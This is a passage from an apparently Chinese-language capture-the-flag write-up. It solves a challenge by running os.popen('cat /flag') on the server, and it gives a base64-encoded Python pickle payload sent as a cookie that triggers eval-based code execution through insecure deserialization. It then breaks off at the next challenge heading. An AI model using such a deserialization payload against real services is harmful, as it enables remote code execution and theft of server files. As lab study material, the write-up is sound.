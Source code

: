 发现flag，os.popen('cat /flag')

![image-20240222151354975](image/image-20240222151354975.png)

得到flag

方法二：浏览器构造cookie

将反序列化base64加密后的值，通过浏览器直接传入cookie

```
gASVRgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwqX19pbXBvcnRfXygib3MiKS5wb3BlbigiY2F0IC9mbGFnIikucmVhZCgplIWUUpQu
```

![image-20240222151728971](image/image-20240222151728971.png)

***

### blackmagic

打开实例

![image-20240222152926283](image/image-20240222152926283.png)
